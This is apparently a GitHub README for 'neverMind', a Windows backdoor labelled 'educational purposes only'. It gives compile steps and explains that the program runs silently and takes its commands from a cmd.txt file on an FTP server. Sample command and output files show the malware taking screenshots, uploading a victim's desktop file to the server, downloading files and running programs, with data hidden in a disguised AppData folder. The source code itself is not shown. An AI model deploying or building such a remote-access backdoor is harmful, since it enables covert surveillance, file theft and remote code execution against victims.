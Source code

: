 # neverMind

**educational purposes only!**

read more on my blog!

# compile (on windows)

1. open developer command prompt in visual studio (this uses the MSVC compiler)

2. navigate to directory where `main.cpp` is stored

3. compile using `cl`

```bash
cl /EHsc main.cpp
```

once you have the executable, click it and the backdoor runs silently in the background. 

# overview (quick)

the program is controlled remotely via commands stored in a file on an FTP server. 

1. FTP server setup: the program requires an FTP server to be set up with a specific directory structure. the server must have a directory with the same name as the windows username of the target system. inside this directory, there should be a file named `cmd.txt` that contains the commands to be executed.

2. command file: the `cmd.txt` file contains the commands that the program executes. each line in the file represents a separate command. the program supports several commands: `print`, `screen`, `upload`, `download`, `exec`.

- example of `cmd.txt`:

```bash
print hello, world!
screen 1
upload C:\\Users\\bilal\\Desktop\\file.txt file.txt
download file2.txt
exec notepad.exe
```

the program is instructed to:

- print the message "hello, world!"

- take 1 (one) screenshot

- upload the file `C:\\Users\\bilal\\Desktop\\file.txt` to the FTP server with the name `file.txt`

- download the file `file2.txt` from the FTP server

- execute the command `notepad.exe` which opens the notepad app

3. output upload: after executing the commands, the program uploads an `output.txt` to the FTP server. this file contains the output of the executed commands and any error messages.

- example of `output.txt`:

```bash
[PRINT][>] hello, world! [<]
[SCREEN][++] screenshot saved >> C:\\Users\\bilal\\AppData\\Local\\SystemConnect\\data\\screenshot1.bmp [++]
[UPLOAD][++] file C:\\Users\\bilal\\Desktop\\file.txt upload as file.txt successful [++]
[DOWNLOAD][++] file file2.txt download successful [++]
```


